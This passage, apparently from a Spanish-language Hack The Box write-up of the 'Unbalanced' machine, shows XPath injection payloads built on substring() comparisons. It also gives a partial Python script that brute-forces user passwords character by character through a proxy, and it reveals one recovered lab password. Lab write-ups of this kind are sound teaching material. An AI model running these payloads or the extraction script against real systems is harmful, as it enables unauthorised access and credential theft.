 ```html
' or substring(user(/[position()=1]),1,1)='r' or '
```

Pero no había intentado algo más fácil (acá fue donde me ayudo @TazWake). Usando el mismo nombre del campo:

```html
' or substring(Username,1,1)='r' or '
```

![268pageritaquery](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unbalanced/268pageritaquery.png)

Perfecto, ahora solo nos muestra ese registro, lo que sigue es validar lo mismo pero con el campo `Password`, para esto podemos crearnos un script que nos ayude...

Tuve un problema y era que la letra que encontraba en el campo **Password** podía ser de cualquier usuario, simplemente la primera similitud hacia que pasara a la siguiente letra, por lo tanto obtenía una palabra con la mezcla de las contraseñas, así que la idea era que inicialmente tome un **Username** como referencia y a ese **Username** le extrajera el Password**. Después de varios problemas e intentar cosas "difíciles" o dejar de intentar cosas :( intente esta línea:

```html
' or substring(Username,1,4)='rita' and substring(Password,1,1)='a' or '
```

Esto jugando ya con bucles, arrays y demás cositas nos quedaría así:

```py
password = "' or substring(Username,1,4)='rita' and substring(Password,%d,1)='%s' or '" % (posicion, letra)
```

Que finalmente nos da como contraseña: `password01!`. Modificando mejor el script para que tome de una vez cada usuario y le extraiga su contraseña:

```py
#!/usr/bin/python3 

import requests, re
from pwn import *

intranet_url = "http://172.31.179.1/intranet.php"
proxy = {"http" : "http://10.10.10.200:3128"}

try:
    p1 = log.progress("XPath exploit")

    axyz = "abcdefghijklmnopqrstuvwxyz0123456789!\"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~ABCDEFGHIJKLMNOPQRSTUVWXYZ"
    username = "anY0ne"
    users_array = ["rita", "jim", "bryan", "sarah"]
    letter_found = ""

    for name in users_array:

        p2 = log.progress("Username")
        p2.status("%s = " % (name))
        length_name = len(name)

        #Hacemos de cuenta que la cadena tiene un tamaño maximo de 24 caracteres.
        for col in range(1, 25):
            #Probamos cada letra, numero y simbolo del la variable -axyz-.
            for letter_array in axyz:
                password = "' or substring(Username,1,%d)='%s' and substring(Password,%d,1)='%s' or '" % (length_name, name, col, letter_array)
                p1.status("%s" % (password))

                data_post = {
```
